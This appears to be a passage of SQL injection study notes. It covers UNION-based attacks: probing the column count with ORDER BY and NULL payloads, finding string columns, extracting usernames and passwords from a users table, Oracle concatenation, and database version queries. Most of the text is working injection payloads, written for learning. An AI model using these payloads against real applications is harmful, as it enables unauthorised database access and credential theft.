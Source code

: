 > 'ORDER BY' is better for determining the num of returned columns because Oracle requires 'FROM dual' part after UNION SELECT  
> Example of sqli for oracle db: ' UNION SELECT NULL FROM DUAL--  
> __However sometimes servers may be protected against ORDER BY and may not be protected agianst UNION__
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
- The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values: 
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
If the number of nulls does not match the number of columns, the database returns an error

### Finding columns with a useful data type
After you determine the number of required columns, you can probe each column to test whether it can hold string data.
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
If the column data type is not compatible with string data, the injected query will cause a database error

In this way you can figure out which columns return string data. Let's say second column contains string data, in that case we can put password under the second column 
```
' UNION SELECT username, password FROM users--
```

## Retrieving multiple values within a single column
In some cases the query in the previous example may only return a single column. 
On Oracle you could submit the input: 
```
' UNION SELECT username || '~' || password FROM users--
```
Different databases use different syntax to perform string concatenation. For more details, see the SQL injection cheat sheet.

# Examining the database
## Get db version
Database type |	Query
---|---
Microsoft, MySQL | 	SELECT @@version
Oracle | 	SELECT * FROM v$version
PostgreSQL 	| SELECT version() 
